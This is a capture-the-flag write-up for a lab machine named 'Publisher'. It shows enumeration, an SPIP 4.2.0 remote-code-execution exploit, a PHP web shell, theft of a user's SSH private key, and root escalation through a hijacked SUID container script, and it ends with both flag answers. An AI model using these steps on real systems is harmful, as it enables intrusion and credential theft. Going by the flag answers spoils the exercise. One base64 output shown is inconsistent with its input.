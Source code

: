 ## Room Description
The "**Publisher**" CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.
## Solution
![[screenshots/ss_1.png]]
#### nmap
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)  
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)  
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
|_http-title: Publisher's Pulse: SPIP Insights & Tips
```

#### dirsearch
```
/images/
/spip/
```

#### Exploiting
Site has been published with **SPIP 4.2.0**
On *exploit-db* i found this [exploit](https://www.exploit-db.com/exploits/51536)

So, i'd recommend to set up a virtual environment for running exploit
```bash
mv 51536.py spip_rce.py # rename executable file
python3 -m venv publisher_venv # create a venv
source publisher_venv/bin/activate # activate venv
pip3 install bs4 # install libraries
pip3 install requests==2.28.2 # install libraries
python3 spip_rce.py -u http://10.10.163.246 -c whoami -v # test exploiting
```

Also we need to create a file with *RCE* (for comfortable exploiting)
```bash
echo "<?php system($_GET["cmd"]); ?>" | base64
PD9waHAgc3lzdGVtKCk7ID8+Cg==
```

```bash
python3 spip_rce.py -u http://10.10.163.246/spip -c 'echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+C  
g== | base64 -d > rce.php' -v
```

Now we can execute code with curl:
```bash
curl "http://10.10.163.246/spip/rce.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Find our `user.txt` flag:
```bash
curl "http://10.10.163.246/spip/rce.php?cmd=ls%20-la%20%2Fhome"
curl "http://10.10.163.246/spip/rce.php?cmd=cat%20%2Fhome%2Fthink%2Fuser.txt"
```
`fa229046d44eda6a3598c73ad96f4ca5`
#### Stabilize shell (ssh)
Target machine has a private ssh, so we can connect via ssh with it
```bash
curl "http://10.10.163.246/spip/rce.php?cmd=cat%20%2Fhome%2Fthink%2F.ssh%2Fid_rsa" > id_rsa
chmod 400 id_rsa
ssh -i id_rsa think@10.10.163.246
```
#### root.txt Flag
Use command `find / -perm -4000 2>/dev/null` to see what command we are able to run with user's permissions
```
/tmp/default  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/openssh/ssh-keysign  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/xorg/Xorg.wrap  
/usr/sbin/pppd  
/usr/sbin/run_container  
/usr/bin/at  
/usr/bin/fusermount  
/usr/bin/gpasswd  
/usr/bin/chfn  
/usr/bin/sudo  
/usr/bin/chsh  
/usr/bin/passwd  
/usr/bin/mount  
/usr/bin/su  
/usr/bin/newgrp  
/usr/bin/pkexec  
/usr/bin/umount
```

`/usr/sbin/run_container` is what we are interested in

```bash
think@publisher:~$ /usr/sbin/run_container  
List of Docker containers:  
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 2 hours  
  
Enter the ID of the container or leave blank to create a new one:    
/opt/run_container.sh: line 16: validate_container_id: command not found  
  
OPTIONS:  
1) Start Container  
2) Stop Container  
3) Restart Container  
4) Create Container  
5) Quit  
Choose an action for a container: 5  
Exiting...
```

We see, it runs `/opt/run_container.sh`. So we need to change this file
```bash
echo -e '#!/bin/bash\ncp /bin/bash /tmp/default\nchmod +s /tmp/default' > /opt/run_container.sh
cd /opt
run_container
ls -la /tmp # default is the copy of /bin/bash with root priv
cd /tmp
./default -p
cat /root/root.txt
```
## Questions
***Question #1.*** What is the user flag?
*Answer*: **fa229046d44eda6a3598c73ad96f4ca5**
**Question #2.** What is the root flag?
*Answer:* **3a4225cc9e85709adda6ef55d6a4f2ca**

---
### Resources
- **Worldist** (*dirsearch*) - https://github.com/danielmiessler/SecLists
- **Exploit** (*SPIP v4.2.0 - RCE*) - https://www.exploit-db.com/exploits/51536
